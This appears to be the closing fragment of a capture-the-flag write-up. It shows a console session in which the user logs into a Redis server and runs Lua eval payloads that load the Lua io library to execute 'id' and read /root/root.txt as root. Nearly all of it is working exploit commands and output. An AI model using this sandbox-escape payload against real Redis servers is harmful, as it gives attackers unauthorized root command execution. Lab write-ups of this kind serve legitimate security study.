 ```console
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
(error) NOAUTH Authentication required.
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
"bdc555809c3e4021438169dcef11acb2\n"
127.0.0.1:6379> 
```
Rooted!
